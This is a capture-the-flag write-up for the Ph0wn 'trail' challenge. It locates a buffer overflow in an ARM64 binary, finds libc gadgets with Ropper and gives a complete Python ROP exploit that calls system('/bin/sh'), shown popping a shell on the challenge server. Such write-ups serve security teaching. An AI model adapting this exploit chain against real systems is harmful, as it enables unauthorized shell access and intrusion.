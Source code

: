 # Locating buffer overflow by Cryptax and @therealsaumil

`./trail` is an ARM64 ELF executable. It is not stripped:

```
$ file trail 
trail: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=6159d835d9a1906975a278e1724633884be46f49, for GNU/Linux 3.7.0, not stripped
```

The participant environment contains a fake flag in `/FLAG`:

```
[arm64] ~$ ls -al
total 444
drwxr-xr-x 5 r0   r0     4096 Oct 31 13:50 ./
drwxr-xr-x 3 root uucp   4096 Jul 23  2022 ../
-rwxr-xr-x 1 r0   r0      198 Oct 24 08:13 ._trail*
-rw-r--r-- 1 r0   r0      220 Jul 23  2022 .bash_logout
-rw-r--r-- 1 r0   r0     3526 Jul 23  2022 .bashrc
drwxr-xr-x 2 r0   r0     4096 Nov 25 06:15 .dircolors/
-rw-r--r-- 1 r0   r0      120 Dec 14  2022 .gdbinit
-rw-r--r-- 1 r0   r0   392824 Dec 24  2022 .gdbinit-gef.py
-rw-r--r-- 1 r0   r0        0 Dec 14  2022 .hushlogin
-rw-r--r-- 1 r0   r0      987 Dec 14  2022 .profile
drwx------ 2 r0   r0     4096 Nov 25 06:15 .ssh/
-rw------- 1 r0   r0      763 Jan  2  2023 .viminfo
-rw-r--r-- 1 r0   r0      215 Dec 24  2022 .wget-hsts
drwxrwxr-x 2 r0   r0     4096 Oct 30 09:31 shared/
-rwxr-xr-x 1 r0   r0     9576 Oct 24 08:13 trail*
[arm64] ~$ ls /
FLAG  boot/  etc/   lib/         media/  opt/   root/  sbin/  sys/  usr/
bin/  dev/   home/  lost+found/  mnt/    proc/  run/   srv/   tmp/  var/
[arm64] ~$ cat /FLAG
ph0wn{replace-with-final-flag}
```

This is an exploit challenge. We quickly identify there is a buffer overflow:

```
$ ./trail
---------- ==== PH0WN ULTRA TRAIL ==== ---------
               ~ Only 1337 kms ~
               REGISTRATION SERVER
Runner name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, you have successfully been registered
Good luck!
Segmentation fault (core dumped)
```

GEF is installed in the environment, so we load `gdb`, generate a long pattern and feed it to the binary to see what our stack and registers look like.

![Use "pattern create 200" to generate a long pattern in GEF](./pattern-gef.png)

Use the GEF command `registers` to show registers.

![We notice x5, x14, x15, x29, x30, SP and PC have been overflowed](./gef-overflow.png)

So, we are able to control:

- x29 aka Frame Pointer
- x30 aka Link Register (return address of functions)
- PC
- x31 aka Stack Pointer

# Creating the exploit

We want to exploit the buffer overflow to get a shell on the device and read the flag. As the description seems to hint ("HOP ROP ROP"), we try to **ROP**.
Return Oriented Programming is more difficult on ARM64 for several reasons:

1. Usage of PC is restricted (unlike ARM32)
2. Only few instructions support SP as an operand on ARM64
3. Stack memory is not executable. Because of that a simple buffer overflow with nops + shellcode won't work on ARM64... which is why we have to turn to ROP.

Additionally, there are a few differences with ARM32 such as, of course, different instructions, but also, in ARM64, the return address is stored at the top of the frame (whereas it's at the bottom for ARM32). This is the ARM64 frame layout:

- SP --> x29 Frame Pointer
- x30 Link Register containing the return address
- Local variables
- ...

Let's go back to our ROP idea. We're going to use gadgets from the libc. Basically, the idea is to execute `system("/bin/sh")`, where `system` is a function in the libc.

`system` is located at 0x43c90. Also, note the libc starts at 0x0000fffff7e56000.

```
gef>  xinfo system
Page: 0x0000fffff7e56000  ->  0x0000fffff7fb3000 (size=0x15d000)
Permissions: r-x
Pathname: /lib/aarch64-linux-gnu/libc-2.31.so
Offset (from page): 0x43c90
Inode: 21282698
Segment: .text (0x0000fffff7e79d00-0x0000fffff7f6bc50)
Offset (from segment): 0x1ff90
Symbol: system
```

We need to pass a parameter to `system` (`/bin/sh`). To do so, we need to set x0 (first argument) to SP (`x0 = sp`).

We are going to search for a gadget in the libc that moves SP to x0 with [Ropper](https://github.com/sashs/Ropper). 

```
~/shared/rop64$ ropper 
(ropper)> file libc-2.31.so
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.
```

Search for gadgets with one instruction (`/1/`):

```
(libc-2.31.so/ELF/ARM64)> search /1/ mov x0, sp
[INFO] Searching for gadgets: mov x0, sp
```

There are none, so we try another way to set x0, using the `add` instruction and 2 instructions:

```
(libc-2.31.so/ELF/ARM64)> search /2/ add x0, sp
[INFO] Searching for gadgets: add x0, sp

[INFO] File: libc-2.31.so

0x00000000000a4564: add x0, sp, #0x10; eor x1, x1, x2; blr x1; 
0x00000000000ce60c: add x0, sp, #0x10; eor x1, x2, x3; blr x1; 
0x00000000000978b0: add x0, sp, #0x110; str x2, [sp, #0x110]; blr x25; 
```

The first gadget is usable, but not "perfect". It branches at the end to *x1*. We want it to branch to `system`, so we need to find a way to set x1. We are going to find for a gadget that helps set x1 to an arbitrary value. We use ropper once again to find such a gadget.

```
libc.so.6/ELF/ARM64)> search /1/ ldr x1, [sp
[INFO] Searching for gadgets: ldr x1, [sp

[INFO] File: libc.so.6
0x00000000000f78c4: ldr x1, [sp, #0x60]; blr x1; 
0x00000000000ca2e8: ldr x1, [sp, #0x78]; blr x4; 
0x0000000000102098: ldr x1, [sp, #0x80]; blr x2; 
0x00000000000ff6c8: ldr x1, [sp, #0x90]; blr x2; 
0x00000000000f7d7c: ldr x1, [sp, #0xc0]; blr x1; 
```

Those are branching to x1, x4 etc. We'd like something that sets x1 and returns. We continue our research. With 2 instructions, no better. But with 3 instructions, the first one is interesting.

```
(ropper)> search /3/ ldr x1, [sp
0x00000000000311b8: ldr x1, [sp, #0x18]; mov x0, x1; ldp x29, x30, [sp], #0x20; ret; 
0x00000000000f8e8c: ldr x1, [sp, #0x40]; mov x0, x20; ldr x1, [x1, #0x20]; blr x1; 
...
```

This first gadget stores `x1=sp + 0x18`, then moves x1 in x0 (x0 contains the return value) and finally does a `ret`. So it will return x1.

# Wrapping up the exploit

So, we need to:

1. Launch the second gadget and set x1 to the address of `system`
2. Launch the first gadget with x0 pointing to `/bin/sh`

```python
# the address of libc
libc_base = 0x0000fffff7e56000

# "second" gadget - which sets x1
ldr_x1_sp_18_ret = libc_base + 0x00000000000311b8

# first gadget that sets x0 
add_x0_sp_10_blr_x1 = libc_base + 0x00000000000a4564

# address of system
system = libc_base + 0x43c90
```

Then, we craft the buffer overflow. 

```python
def p64(value):
    return(struct.pack("<Q", value)) # little byte order

buf = b"A" * 40

rop = b""
rop += p64(ldr_x1_sp_18_ret)
rop += p64(0x4848484848484848)
rop += p64(add_x0_sp_10_blr_x1)
rop += p64(0x5050505050505050)

# this value, 0xfbad2a84 appears in x2, we have to XOR it to point to system
rop += p64(system ^ 0xfbad2a84) 
rop += p64(0x5252525252525252)
rop += p64(0x5353535353535353)

rop += b"/bin/sh;#"

buf = buf + rop

payload = buf + b"\n"

sys.stdout.buffer.write(payload)
```

# Running the exploit

```
$ (python3 ./solution.py ; cat -) | nc chal.ph0wn.org 9123
---------- ==== PH0WN ULTRA TRAIL ==== ---------
               ~ Only 1337 kms ~
               REGISTRATION SERVER
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�q����^@^@HHHHHHHHd�����^@^@PPPPPPPP^T�D^L��^@^@RRRRRRRRSSSSSSSS/bin/sh;#
Runner name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�q����, you have successfully been registered
Good luck!
id
id
uid=1000(r0) gid=1000(r0) groups=1000(r0),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),102(netdev)
uname -a
uname -a
Linux arm64 5.10.7 #8 SMP PREEMPT Thu Dec 29 20:34:15 UTC 2022 aarch64 GNU/Linux
ls /
ls /
bin   dev  FLAG  lib	     media  opt   root	sbin  sys  usr
boot  etc  home  lost+found  mnt    proc  run	srv   tmp  var
cat /FLAG
cat /FLAG
ph0wn{is_there_h0pe_4_r0pe}
```
